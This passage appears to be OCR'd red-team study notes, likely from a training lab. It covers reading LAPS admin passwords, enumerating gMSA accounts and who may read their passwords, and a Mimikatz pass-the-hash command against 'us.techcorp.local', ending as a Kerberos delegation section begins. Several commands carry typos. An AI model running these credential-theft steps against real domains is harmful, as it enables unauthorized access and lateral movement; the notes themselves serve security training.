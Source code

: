 ~~~
Get-DomainObject -Identity <targetmachines> | select -ExpandProperty ms-mcs-admpwd
~~~

-Active Directory Module 

~~~
Get-AdComputer -Identtity <targetmachine> -Properties ms-mcs-admpwd | select -Expandproperty ms-mcs-admpwd
~~~

-Laps Module 

~~~
Get-AdmpwdPassword -ComputerName <target machine>
~~~

### gMSA- Group Managed Service Account

Provides automatic password management . User reads attribute 'msds-ManagedPassword' the gMSA password is computed 

Enumuration 

A gMSA hash object class 'msDS-GroupManagedServiceAccount' .This can be used to find the accounts.

Using ADModule

~~~
Get-ADServiceAccount -Filter *
~~~

Using Powerview 

~~~
Get-DomainObject -LDAPFilter '(ObjectClass-msDS-GroupManagedServiceAccount)'
~~~

The attribute 'msDS-GroupMSAMemberShip' (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob

Read it using ADModule:

~~~
GetADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
~~~

  Passing the NTLM hash of the gMSA we get privileges of the gMSA

```
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:hash
```


### Kerberos Delegation

Kerberos Delegation allows to "reuse the end-user credentials to access resources
hosted on a different server".

General/Basic or Unconstrained Delegation which allows the first hop
server (web server in our example) to request access to any service
on any computer in the domain.
